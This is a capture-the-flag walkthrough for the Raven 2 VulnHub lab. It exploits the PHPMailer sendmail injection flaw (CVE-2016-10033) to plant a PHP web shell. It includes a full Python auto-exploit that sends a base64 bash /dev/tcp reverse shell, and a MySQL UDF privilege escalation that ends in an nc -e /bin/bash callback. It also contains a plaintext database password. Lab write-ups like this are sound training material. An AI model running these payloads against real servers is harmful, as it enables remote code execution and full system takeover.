

Raven2 is another vm designed to train to OSWE exam!

Raven 2 is an intermediate level boot2root VM. There are four flags to capture. After multiple breaches, Raven Security has taken extra steps to harden their web server to prevent hackers from getting in. Can you still breach Raven?

# Diagram



# Enumeration

Let's get the box ip with `arp-scan`

```sh
arp-scan -I eth1 192.168.56.100/24
```


First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 192.168.56.155 -p-
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


Just a normal page

The only page we can do something interesting as input data is the contact tab


### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore. I use zip, because I know that possible we will need to get the source code from anywhere.

```sh
gobuster dir -t 100 -u http://192.168.56.155 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip
```


We found a bunch of directories in it. Fine. All of them we must be logged in to access. So, let's go deeper in the login tab now

Let's download the zip file

```sh
wget 192.168.56.155/contact.zip
```


We unzip it


# Source Code Analysis

We found something interesting in this php file


```php
<?php
if (isset($_REQUEST['action'])){
	$name=$_REQUEST['name'];
	$email=$_REQUEST['email'];
	$message=$_REQUEST['message'];
	if (($name=="")||($email=="")||($message=="")){
		echo "There are missing fields.";
	}else{		
		require 'vulnerable/PHPMailerAutoload.php';
		$mail = new PHPMailer;
		$mail->Host = "localhost";
		$mail->setFrom($email, 'Vulnerable Server');
		$mail->addAddress('admin@vulnerable.com', 'Hacker');
		$mail->Subject  = "Message from $name";
		$mail->Body     = $message;
		if(!$mail->send()) {
			echo 'Message was not sent.';
			echo 'Mailer error: ' . $mail->ErrorInfo;
		} else {
			echo 'Message has been sent.';
		}
	}
}  
?>
```

We test to see how it works in the web app, to see in burp what fields we have


We got an error messsage


What is the most important part of this analysis is the PHPMailerAutload.php file being called on the contact.php

# PHPSendMail

https://www.fortinet.com/blog/threat-research/analysis-of-phpmailer-remote-code-execution-vulnerability-cve-2016-10033

We found one vulnerability from phpsendmail function

What is happening here?

1. PHPMailer get the requests which were passed by the user

2. Makes the validation of it

3. Send the request to mail(), which send the e-mail

For examil, if the value $address be "attack -InjectParam @teste.com" will be rejected. But the method that the code uses, follow the RFC3969, one e-mail show contain quotes and espaces, so ""attack -InjectParam"@teste.com" will be accept by the code filter.

After this validation the PHPMailer will send the user input to mail() function, which will send the mail

The problem is that the phpmailer does not make the proper sanitizaton

For example, if we send the request

`"attack -Parameter"@teste.com"`

The function mail() will execute the /usr/bin/sendmail with 4 arguments

1. /usr/bin/sendmail
2. -t
3. -i
4. -f attacker -Parameter@teste.com

So, the attacker could break this fourth argument injecting a "\"


`atacker\"-Parameter1 -Parameter2"@teste.com`

The function mail() will execute the /usr/bin/sendmail with 6 arguments

1. /usr/bin/sendmail
2. -t
3. -i
4. -f attacker
5. -Parameter1
6. -Parameter@teste.com

So, with the burpsuite request we mount our payload


```
name=Hacker
email="hacker\" -oQ/tmp -X/var/www/html/shell.php rce"@rce.com
message=<?php echo shell_exec($_REQUEST['cmd']); ?>
```


```
action=submit&name=0x4rt3mis&email="hacker\"+-oQ/tmp+-X/var/www/html/shella.php+rce"@rce.com&subject=Testing&message=<?php+echo+shell_exec($_REQUEST['cmd']);+?>
```

And we got RCE


Now, let's automate it to get the full reverse shell

# Auto Reverse Shell

Here it is


raven_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto exploit for Raven2 - VulnHub

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
  
# Function to just send the mail
def sendMail(rhost):
    print("[+] Let's send the malicious PHP !! [+]")
    url = "http://%s:80/contact.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest"}
    data = {"action": "submit", "name": "0x4rt3mis", "email": "\"hacker\\\" -oQ/tmp -X/var/www/html/cmd.php rce\"@rce.com", "subject": "Testing", "message": "<?php echo shell_exec($_REQUEST['cmd']); ?>"}
    r.post(url, headers=headers, data=data)
    print("[+] Sent !! [+]")

# Just get the reverse!    
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/cmd.php?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Send the mail
    sendMail(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

# www-data -> Root

Let's get root

We see a password in the config files


We see that mysql in running as root

```sh
ps auxf | grep mysql
```


Once the mysql is running as root and we have the mysql credentails, we can get the UDF mysql function

```sh
searchsploit mysql udf
```


Now just, replicate the exploit

```sh
searchsploit -m exploits/linux/local/1518.c
```


Now let's exploit


We compile it

```sh
cd /tmp
gcc -g -c -fPIC 1518.c
gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```


Now get in the mysql

```sh
mysql -u root -p
R@v3nSecurity
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select * from mysql.func;
```


Now, get the reverse shell

```sh
select do_system('nc -nv 192.168.56.153 8855 -e /bin/bash');
```


Got root!